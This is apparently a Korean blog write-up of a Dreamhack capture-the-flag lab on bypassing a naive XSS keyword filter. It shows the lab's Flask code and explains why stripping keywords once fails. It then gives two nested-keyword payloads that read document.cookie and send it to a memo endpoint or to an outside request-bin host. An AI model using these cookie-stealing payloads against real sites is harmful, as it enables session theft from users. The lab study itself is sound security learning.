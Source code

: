```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass
- [x] xss filtering bypass advanced

# Web Hacking [함께실습] xss filtering bypass


## 웹 서비스 분석
### 엔드포인트 : /vuln

이용자가 전달한 param 파라미터 값 출력

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param
```

xss_filter : XSS 취약점을 막으려는 시도 / script, on, javascript 필터링

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text
```

### 엔드포인트 : /memo

이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록 / 출력

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

### 엔드포인트 : /flag

1) GET : 이용자에게 URL을 입력받는 페이지 제공
2) POST : param에 값과 쿠키에 flag를 포함하여 check_xss 함수 호출

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

## 취약점 분석 / 익스플로잇

### 취약점 분석 

vuln , memo 엔드포인트는 이용자의 입력값을 페이지에 그대로 출력하며, memo는 render_template 을 통해 memo.html을 출력한다. render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기에, XSS 취약점이 발생하지 않는다. 그러나, vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기에 XSS 취약점이 발생할 수 있다. 

filter_xss 함수를 통해 script, on, javascript 총 세 개의 키워드를 필터링하나, 키워드를 한 번만 제거하기에, 쉽게 우회 가능하다

### 익스플로잇

location.href : 전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성
document.cookie : 해당 패이지에서 사용하는 쿠키를 읽고, 쓰는 속성

```javascript
<scronipt>document.locatioonn.href = "/memo?memo=" + document.cookie;</scronipt>
```

```javascript
<scronipt>document['locatio'+'n'].href = "http://kyjwjya.request.dreamhack.games/?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/22.png">

# Web Hacking [혼자실습] xss filtering bypass advanced

못 품

